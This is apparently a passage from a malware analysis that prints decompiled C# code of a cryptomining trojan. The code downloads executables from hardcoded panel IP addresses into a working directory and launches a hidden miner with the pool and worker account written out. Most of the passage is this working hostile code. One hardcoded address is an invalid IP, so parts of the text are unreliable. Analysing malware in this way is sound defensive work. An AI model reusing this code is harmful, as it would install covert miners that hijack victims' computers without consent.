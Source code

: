 ```C#
	bool arg_92_0 = Class5.Boolean_0;
}
```

`prepareEnvironmet` takes care of downloading and creating the directory where all operations will happen.

```C#
private static void prepareEnvironment()
{
	Directory.CreateDirectory(Class5.pathDirWork);
	string[] array = Directory.GetFiles(Class5.pathDirWork);
	for (int i = 0; i < array.Length; i++)
	{
		string text = array[i];
		if (text.Contains(".exe"))
		{
			Class5.fileExe_ = Class5.esplit_(text);
			return;
		}
	}
	array = Directory.GetDirectories(Class5.pathDirWork);
	for (int i = 0; i < array.Length; i++)
	{
		string[] files = Directory.GetFiles(array[i]);
		for (int j = 0; j < files.Length; j++)
		{
			string text2 = files[j];
			if (text2.Contains(".exe"))
			{
				Class5.fileExe_ = Class5.esplit_(text2);
				return;
			}
		}
	}
	Class5.downloadFile(GetInfoSystem.Boolean_0 ? "http://159.224.138.20/panel/mr/audiodg.exe" : "http://159.224.138.20/panel/mr/curl.exe", Class5.pathDirWork + "curl.exe");
	if (Class1.bool_2)
	{
		Class5.downloadFile(GetInfoSystem.Boolean_0 ? "http://285.58.206.45/panel/mr/audiodg.exe" : "http://285.58.206.45/panel/mr/curl.exe", Class5.pathDirWork + "curl.exe");
	}
	Class5.prepareEnvironment();
}
```

Should there be enough available resources on the OS, another bitcoin miner will be launched.

```C#
public static void startMining_poolmn()
{
	if (Class1.bool_0)
	{
		Class5.getExeFromDirWork();
		Process.Start(new ProcessStartInfo
		{
			FileName = Class5.pathDirWork_1 + Class5.file_,
			WindowStyle = ProcessWindowStyle.Hidden,
			Arguments = "--blake256 -o dcr.pool.mn:4722 -u vlad12345123.user -p password"
		});
		bool arg_43_0 = Class5.Boolean_1;
		return;
	}
}
```
